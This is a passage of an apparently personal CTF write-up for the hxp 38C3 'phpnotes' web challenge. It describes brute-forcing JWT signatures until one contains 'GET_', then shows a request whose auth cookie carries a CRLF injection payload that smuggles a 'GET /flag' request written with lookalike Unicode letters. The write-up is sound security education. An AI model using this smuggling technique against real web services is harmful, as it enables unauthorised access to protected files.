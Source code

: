 > [...]the signature process itself is deterministic for a given message, and the message only changes based on the username and the second-granular UNIX timestamp of issue (`iat`) and expiry (`exp`). If you attempt to obtain signatures by logging in the same user over and over again, you will receive lots of duplicates, and spend a long time searching. - [https://hxp.io/blog/113/hxp-38C3-CTF-phpnotes/](https://hxp.io/blog/113/hxp-38C3-CTF-phpnotes/)

With that said, we need to **register a bunch of users and login to them**, so that we won't get any duplicates.

To get the JWT that contains `GET_` in the signature, I have written the following Python script:

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/hxp-38C3-CTF/Web/phpnotes)-[2024.12.31|18:01:28(HKT)]
└> python3 solve.py
[*] Starting 16 processes...
[+] We found a JWT that contains "GET_" in the signature: eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImM1ekJPS0FEUzEiLCJpYXQiOjE3MzU2NDQxMzYsImV4cCI6MTczNTY0NzczNn0.2Wv_niEfIYFkd9K7Xr6OEE3GZ4aaXDq6I4d5OrDckYdlHjYPqPzy77POKbAcqKRRZMRQFUnnjsYQ2GRR2X--lqxxDaqSLWkB9lqrg89irJ3roTKVb3JiGCsazn9WbOFP4tnVtTYqyd74HYaeusEITl8jhSxUta4xhIfMA4YF9q_mVbvCMpIpjRaIXlj6uYVfeSW5HQ3NVRifpbkL1wGrQtPZGET_TLbW8otGzBbWsEfYS6iahujRx8S3cuseAIwdFXIqTzkVMNbBTF5UfNXB3xnsm5oAGHIt48DJLUwnhgS8iDo_WDI-acXliHH3Y_ebn-yFhXRiUWaAolEXAMQvNw
```

> Note: This process could take a very long time. In my local testing environment, it took me around 1 hour.

After obtaining the correct JWT, we can send the following request to smuggle a request to get the flag file:

```http
GET /note.php?id=e88869df3efe30ba5e0afb8bbad0a9be HTTP/1.1
Host: localhost:4891
Cookie: auth=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImM1ekJPS0FEUzEiLCJpYXQiOjE3MzU2NDQxMzYsImV4cCI6MTczNTY0NzczNn0.2Wv_niEfIYFkd9K7Xr6OEE3GZ4aaXDq6I4d5OrDckYdlHjYPqPzy77POKbAcqKRRZMRQFUnnjsYQ2GRR2X--lqxxDaqSLWkB9lqrg89irJ3roTKVb3JiGCsazn9WbOFP4tnVtTYqyd74HYaeusEITl8jhSxUta4xhIfMA4YF9q_mVbvCMpIpjRaIXlj6uYVfeSW5HQ3NVRifpbkL1wGrQtPZ%0D%0A%0D%0AGET%20/%F0%9D%97%B3%F0%9D%97%85%F0%9D%92%B6%F0%9D%91%94%0D%0A%0D%0ATLbW8otGzBbWsEfYS6iahujRx8S3cuseAIwdFXIqTzkVMNbBTF5UfNXB3xnsm5oAGHIt48DJLUwnhgS8iDo_WDI-acXliHH3Y_ebn-yFhXRiUWaAolEXAMQvNw


```

> Note: `%F0%9D%97%B3%F0%9D%97%85%F0%9D%92%B6%F0%9D%91%94` is the URL encoded `𝗳𝗅𝒶𝑔`.

CRLF injection payload:

```
<CR><LF><CR><LF>GET<space>/𝗳𝗅𝒶𝑔<CR><LF><CR><LF>
```

Smuggled request:

```http
GET /𝗳𝗅𝒶𝑔


```
